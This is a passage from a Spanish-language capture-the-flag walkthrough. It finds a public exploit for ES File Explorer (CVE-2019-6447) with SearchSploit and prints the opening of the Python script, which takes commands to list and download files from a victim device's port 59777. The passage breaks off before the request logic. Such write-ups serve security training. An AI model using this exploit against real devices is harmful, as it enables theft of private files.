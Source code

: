Tampoco nos aportará mucha información, ya que no tendremos capacidad de directory listing.

<br>

### ES File Explorer
Recordando la fase de enumeración inicial con [nmap](https://github.com/nmap/nmap), sabremos que el servidor HTTP que corre en el puerto 42135 pertenece a la aplicación ES File Explorer. Trataremos de buscar algún exploit para esta aplicación. Con [SearchSploit](https://github.com/offensive-security/exploitdb):

<img src="https://i.imgur.com/aIIAd8r.png" width=700>

Encontraremos un exploit que nos permitirá listar y descargarnos archivos internos de la máquina víctima. Nos lo descargaremos y procederemos a inspeccionarlo:

```python
File: 50070.py


# Exploit Title: ES File Explorer 4.1.9.7.4 - Arbitrary File Read
# Date: 29/06/2021
# Exploit Author: Nehal Zaman
# Version: ES File Explorer v4.1.9.7.4
# Tested on: Android
# CVE : CVE-2019-6447

import requests
import json
import ast
import sys

if len(sys.argv) < 3:
    print(f"USAGE {sys.argv[0]} <command> <IP> [file to download]")
    sys.exit(1)

url = 'http://' + sys.argv[2] + ':59777'
cmd = sys.argv[1]
cmds = ['listFiles','listPics','listVideos','listAudios','listApps','listAppsSystem','listAppsPhone','listAppsSdcard','listAppsAll','getFile','getDeviceInfo']
listCmds = cmds[:9]
if cmd not in cmds:
    print("[-] WRONG COMMAND!")
    print("Available commands : ")
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
    sys.exit(1)

print("\n==================================================================")
print("|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |")
print("|                Coded By : Nehal a.k.a PwnerSec                 |")
print("==================================================================\n")

header = {"Content-Type" : "application/json"}
proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}

def httpPost(cmd):
```